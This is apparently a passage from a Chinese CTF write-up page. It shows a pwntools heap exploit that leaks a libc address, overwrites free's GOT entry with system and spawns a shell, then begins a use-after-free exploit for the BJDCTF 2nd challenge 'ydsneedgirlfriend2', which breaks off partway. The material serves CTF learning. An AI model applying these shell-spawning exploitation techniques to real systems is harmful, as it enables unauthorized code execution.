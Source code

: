 ```python
        r.sendlineafter('text length:',str(length))
        r.sendlineafter('text:',str(text))

def Delete(index):
        r.sendlineafter('Action: ','1')
        r.sendlineafter('index: ',str(index))

def Show(index):
        r.sendlineafter("Action: ", '2')
        r.sendlineafter("index: ", str(index))

def Edit(index,length,text):
        r.sendlineafter('Action: ','3')
        r.sendlineafter('index:',str(index))
        r.sendlineafter('text length: ',str(length))
        r.sendlineafter('text: ',str(text))

Add(0x80,'aaaa',20,'bbbbbbbb')#user0
Add(0x80,'aaaa',20,'bbbbbbbb')#user1
Add(0x80,'a'*8,0x8,'/bin/sh\x00')#user2
Delete(0)

print hex(elf.got['free'])
Add(0x100,'aaaa',0x19c,'b'*0x198+p32(elf.got['free']))
#gdb.attach(r)
Show(1)

r.recvuntil('description: ')
free_addr=u32(r.recv(4))
libc = LibcSearcher('free', free_addr)
libc_base = free_addr - libc.dump('free')
system_addr = libc_base + libc.dump('system')

Edit(1,0x4,p32(system_addr))#把free_got修改成system_got
Delete(2)

r.interactive()

```
[https://www.cnblogs.com/lyxf/p/12215289.html](https://www.cnblogs.com/lyxf/p/12215289.html)
[https://blog.csdn.net/seaaseesa/article/details/102935119](https://blog.csdn.net/seaaseesa/article/details/102935119)


## [BJDCTF 2nd]ydsneedgirlfriend2
free之后没有把指针置为null，存在UAF，只需要让puts指针指向后门函数的地址就可以getshell
```python
from pwn import *
context.log_level='debug'

r=process('./ydsneedgirlfriend2')
#r=remote('node3.buuoj.cn',27004)
backdoor_addr = 0x400D86

def Add(length,name):
        r.sendlineafter('u choice :\n','1')
        r.sendlineafter('Please input the length of her name:\n',str(length))
        r.sendlineafter('Please tell me her name:\n',str(name))

def Delete(index):
        r.sendlineafter('u choice :\n','2')
        r.sendlineafter('Index :',str(index))

```